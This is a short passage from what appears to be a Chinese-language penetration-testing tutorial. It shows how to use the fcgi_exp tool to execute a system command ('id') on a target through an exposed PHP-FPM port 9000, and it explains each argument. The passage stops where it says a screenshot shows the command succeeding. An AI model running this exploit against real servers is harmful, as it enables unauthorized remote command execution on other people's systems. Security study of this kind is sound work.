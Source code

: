然后直接运行可以看到 fcgi\_exp 的使用方法：

[![](assets/1698897074-bde7f1ea9c8ce4cf116220829404d90e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134735-8d6cfa6c-b2e5-1.png)

使用如下命令进行测试

```bash
./fcgi_exp system 192.168.43.82 9000 /var/www/html/index.php "id"
```

-   system：要使用的 PHP 函数
-   192.168.43.82：目标机 IP
-   9000：目标机 fpm 端口
-   /var/www/html/index.php：已知的位于目标机上的PHP文件
-   id：要执行的系统命令

如下图所示，成功执行系统命令，利用成功：
